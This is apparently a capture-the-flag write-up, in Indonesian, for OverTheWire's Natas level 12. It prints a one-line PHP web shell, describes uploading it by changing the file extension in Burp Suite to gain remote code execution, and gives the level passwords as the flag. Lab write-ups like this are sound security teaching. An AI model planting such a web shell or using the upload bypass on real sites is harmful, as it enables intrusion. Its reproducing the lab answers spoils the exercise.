






# soal
Username: natas12
URL:      http://natas12.natas.labs.overthewire.org

# solve
- login with cred natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
- lalu disini ada sebuah form gambar jpg yang kalo kita lihat dari codenya namaa file tersebut akan dibuat secara acak dengan format jpeg
  
- jadi saya mencoba membuat backdoor php
  ```php
  cat simple.php 
  <?php echo system($_GET['c']); ?>
  ```
- dan mencoba menguploadnya dan ketika saya coba benar saja filenya diganti menjadi extension jpeg dengan nama acak
- dan untungnya ketika saya cek di burp suite tidak terdapat encrypt apapun jadi saya mengubahnya
  
  
- namun pas di forward hanya extensionnya saja namun tidak apa apa karena kita cuma butuh extensionya 
  
- dan ketika saya coba buka filenya dengan urlnya saya sudah mendapatkan RCE
  
- dan saya hanya perlu mendapatkan file passnya
  

# flag
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC